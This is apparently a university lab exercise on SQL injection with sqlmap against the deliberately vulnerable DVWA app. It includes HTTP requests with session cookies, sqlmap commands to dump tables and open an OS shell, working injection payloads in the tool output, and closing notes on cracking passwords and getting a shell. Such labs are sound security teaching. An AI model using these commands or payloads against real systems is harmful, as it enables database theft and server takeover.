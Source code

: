 # <img src="https://www.tamusa.edu/brandguide/jpeglogos/tamusa_final_logo_bw1.jpg" width="100" height="50"> SQLi with sqlmap

## sqlmap Overview

sqlmap is an automated open source tool that detects and exploits SQLi vulnerabilities. It supports SQLi against both popular SQL DBMS's (i.e., MySQL, Oracle, Postgresql, MS-SQL and SQLite) and less popular DBMS's (i.e., TiDB, FrontBase, CrateDB and Virtuoso). sqlmap can automate an entire SQLi attack from DBMS detection, SQLi vulnerabilitiy detection, user and database detection, dumping tables, and gaining SQL or  system shells.

Additional sqlmap documentation can be found at [sqlmap.org](https://sqlmap.org/).

This exercise uses DVWA for testing. Ensure you have Metasploitable2 running and can connect to DVWA.

## SQLi Attack using sqlmap

### Challenge 1: Application Authentication and sqlmap

sqlmap supports use of cookies for applications that use session IDs for authentication. DVWA requires user authentication. Using Burp Suite, login to DVWA, browse to the SQL Injection page and enter User ID **1** into form. Click **submit**. A sample GET request from DVWA's SQL Injection page is shown below.

```
GET /dvwa/vulnerabilities/sqli/?id=1&Submit=Submit HTTP/1.1
Host: 34.171.165.162:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://34.171.165.162:8000/dvwa/vulnerabilities/sqli/
Cookie: security=low; PHPSESSID=4ae7cff151a35773cb6253368001f1f6
Upgrade-Insecure-Requests: 1

```

The GET request includes two cookies, security=low and PHPSESSID=4ae7cff151a35773cb6253368001f1f6. Access to the page _sqli_ requires authentication. Therefore, the two cookies must be included when running sqlmap against this page. Two techniques can be used. The first technique includes cookies in the sqlmap command with the **--cookie** option. See the example below.

```
sqlmap -u "http://34.171.165.162:8000/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=4ae7cff151a35773cb6253368001f1f6"

                                 
        ___
       __H__                                                                            
 ___ ___[)]_____ ___ ___  {1.6.7#stable}                                                
|_ -| . [.]     | .'| . |                                                               
|___|_  [']_|_|_|__,|  _|                                                               
      |_|V...       |_|   https://sqlmap.org                                            

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:41:25 /2022-11-07/

[11:41:25] [INFO] parsing HTTP request from 'dvwa.txt'
[11:41:25] [INFO] resuming back-end DBMS 'mysql' 
[11:41:25] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=1' OR NOT 3165=3165#&Submit=Submit

    Type: error-based
    Title: MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' AND ROW(2541,9538)>(SELECT COUNT(*),CONCAT(0x7171707171,(SELECT (ELT(2541=2541,1))),0x7176706271,FLOOR(RAND(0)*2))x FROM (SELECT 9918 UNION SELECT 5520 UNION SELECT 6131 UNION SELECT 3426)a GROUP BY x)-- tefw&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 6324 FROM (SELECT(SLEEP(5)))Gmex)-- LYhW&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT CONCAT(0x7171707171,0x61434154445452584e58456b4e516d7143734a756b5444616f6f7a486d547779735a6c7479467871,0x7176706271),NULL#&Submit=Submit
---
[11:41:26] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 4.1
[11:41:26] [INFO] fetched data logged to text files under '/home/kbarton/.local/share/sqlmap/output/34.171.165.162'                                                             

[*] ending @ 11:41:26 /2022-11-07/
```

**Capture a screenshot of a simple sqlmap attack against DVWA's SQL Injection page with cookies included using --cookie option.**

The second technique is to save the GET request from Burp Suite to a file and read the file into sqlmap. See the folloiwng example. The GET request, with cookies, is stored in dvwa.txt and read into sqlmap using the **-r** option.

```
sqlmap -r dvwa.txt --dump
        ___
       __H__                                                                            
 ___ ___[(]_____ ___ ___  {1.6.7#stable}                                                
|_ -| . [,]     | .'| . |                                                               
|___|_  ["]_|_|_|__,|  _|                                                               
      |_|V...       |_|   https://sqlmap.org                                            

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:50:08 /2022-11-07/

[11:50:08] [INFO] parsing HTTP request from 'dvwa.txt'
[11:50:08] [INFO] resuming back-end DBMS 'mysql' 
[11:50:08] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=1' OR NOT 3165=3165#&Submit=Submit

    Type: error-based
    Title: MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' AND ROW(2541,9538)>(SELECT COUNT(*),CONCAT(0x7171707171,(SELECT (ELT(2541=2541,1))),0x7176706271,FLOOR(RAND(0)*2))x FROM (SELECT 9918 UNION SELECT 5520 UNION SELECT 6131 UNION SELECT 3426)a GROUP BY x)-- tefw&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 6324 FROM (SELECT(SLEEP(5)))Gmex)-- LYhW&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT CONCAT(0x7171707171,0x61434154445452584e58456b4e516d7143734a756b5444616f6f7a486d547779735a6c7479467871,0x7176706271),NULL#&Submit=Submit
```



sqlmap -u "http://34.171.165.162:8000/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=4ae7cff151a35773cb6253368001f1f6" --dump --fresh-queries --os-shell

sqlmap -r dvwa.txt --dump 

Crack passwords

sqlmap -r dvwa.txt --cookie="security=high; PHPSESSID=4ae7cff151a35773cb6253368001f1f6" --dump --fresh-queries --os-shell


Got the os-shell at /var/www/dav (has permissions: drwxrwxrwt  2 root     root      4096 May 20  2012 dav)
